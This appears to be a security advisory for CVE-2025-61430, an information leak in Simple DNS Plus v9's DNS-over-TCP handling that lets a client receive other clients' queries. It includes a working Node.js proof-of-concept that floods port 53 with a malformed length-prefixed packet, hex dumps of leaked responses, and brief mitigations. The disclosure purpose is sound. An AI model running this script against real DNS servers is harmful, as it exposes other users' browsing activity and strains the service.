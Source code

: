 ```yaml
---
title: Cross-client request leakage in Simple DNS Plus
date: 2025-10-09
---
```


CVE ID: CVE-2025-61430

# Introduction

Improper handling of DNS over TCP in Simple DNS Plus v9 allows a remote attacker with querying access to the DNS server to cause the server to return request payloads from other clients. This happens when the TCP length prefix is malformed (len ≠ actual packet len), and due to a concurrency/buffering issue, even when the lengths match. A length prefix that is smaller than the actual packet size increases information leakage. In summary, this vulnerability allows an attacker to see DNS queries of other clients’ (CWE-125 / CWE-130 / CWE-444).

# Affected components

- Product: `Simple DNS Plus` v9.1.116
- Feature: DNS over TCP
- Host device: Windows Server 2019

# Reproduction

This was done on a device running macOS 26 connected to the network with a Simple DNS resolver forced. DNS requests to other resolvers were blocked by blocking port 53 outbound.

The following script was run, and server responses were logged to a text file.

```bash
node script.js
# in another terminal
tail -f log.txt
```

```jsx
import dns from "dns/promises"
import net from "net";
import fs from "fs";
// long dummy packet - real len doesn't matter
const data = new Uint8Array([
	0x00, 0x00, 0xFC, 0x10, 0x1A, 0x8A, 0x32, 0x01, 0x86, 0x56, 0xCD, 0xF5,
	0x94, 0x87, 0x08, 0x00, 0x45, 0x00, 0x00, 0x00, 0x00, 0x5E, 0xAA, 0x40,
	0x00, 0x00, 0x40, 0x11, 0x5E, 0x3B, 0x0A, 0x78, 0x49, 0x07, 0x0A, 0x78,
	0x00, 0x20, 0x14, 0x1D, 0xC8, 0x76, 0x00, 0x35, 0x00, 0x4A, 0xAC, 0x84,
	0x83, 0xA1, 0x01, 0x00, 0x00, 0x01, 0x00, 0x30, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x24, 0x70, 0x72, 0x6F, 0x64, 0x2D, 0x74, 0x65, 0x73, 0x74,
	0x00, 0x40, 0x2D, 0x77, 0x68, 0x61, 0x74, 0x2D, 0x74, 0x68, 0x69, 0x73,
	0x2D, 0x69, 0x73, 0x2D, 0x61, 0x2D, 0x00, 0x50, 0x74, 0x65, 0x73, 0x74,
	0x2D, 0x64, 0x6F, 0x6D, 0x61, 0x69, 0x6E, 0x07, 0x65, 0x78, 0x61, 0x6D,
	0x00, 0x60, 0x70, 0x6C, 0x65, 0x03, 0x6F, 0x72, 0x67, 0x00, 0x00, 0x01,
	0x00, 0x01
]);

// tcp headers
const length = Buffer.alloc(2);
length.writeUInt16BE(data.length);
const packet = Buffer.concat([length, Buffer.from(data)]);
// returned the DHCP simple dns servers - 10.9.0.75
const dnsServers = dns.getServers()
// cross testing
for (const server of dnsServers) {
  let l = 0
  setInterval(() => {
    const socket = new net.Socket();
    socket.on('error', () => socket.destroy());
    socket.on('timeout', () => socket.destroy());
    socket.on('data', (data) => fs.promises.appendFile('log.txt', data.toString("hex") + "\n"));
    socket.connect(53, server,  () => {
     socket.write(packet);
      l++
      console.log("attempt (m) ", l);
    });
  },0);
}

```

The packet was sent 28,700 times (40 seconds), and DNS requests were logged. These requests were confirmed not to have been made from the test machine. A 2nd machine was tried with domains that are known not to exist, but due to the heavy traffic, the machine’s queries weren’t logged. The following domains were confirmed to have never been queried by the test machine.

```

cbef81800001000100000000047061706905686d68636f03636f6d0000410001c00c000500010000002800180771793467383338017808696e636170646e73036e657400
348d818000010006000000000e656e637279707465642d74626e30076773746174696303636f6d0000010001c00c000100010000000c00048efb6f66c00c000100010000000c00048efb6f8ac00c000100010000000c00048efb6f8bc00c000100010000000c00048efb6f65c00c000100010000000c00048efb6f71c00c000100010000000c00048efb6f64
eb66818000010006000000000e656e637279707465642d74626e30076773746174696303636f6d0000010001c00c000100010000000c00048efb6f66c00c000100010000000c00048efb6f8ac00c000100010000000c00048efb6f8bc00c000100010000000c00048efb6f65c00c000100010000000c00048efb6f71c00c000100010000000c00048efb6f64
b9b9818200010000000000000b6d61746368616473727672077969656c646d6f03636f6d0000010001
bd83818200010000000000000b6d61746368616473727672077969656c646d6f03636f6d0000010001
1c9181820001000000000000046d61696c06676f6f676c6503636f6d0000010001
f1a281820001000000000000046d61696c06676f6f676c6503636f6d0000010001
ce1b818000010004000000000465646765096d6963726f736f667403636f6d0000010001c00c000500010000042b002a12656467652d6d6963726f736f66742d636f6d0761782d303030320961782d6d7365646765036e657400c030000500010000002000170761782d303030320c61782d64632d6d7365646765c055c0660001000100000023000496ab1d0bc0660001000100000023000496ab1e0b
8fc781820001000000000000146f7074696d697a6174696f6e67756964652d70610a676f6f676c656170697303636f6d0000410001
b56481820001000000000000146f7074696d697a6174696f6e67756964652d70610a676f6f676c656170697303636f6d0000410001

```

![](01-img1.jpg)

These are malformed DNS queries by other machines on the network, and pcap logs confirm that the test machine did not look these queries up.

# Mitigations

- Validating packet length directly instead of relying on the header
- Make sure each connection has an individual buffer
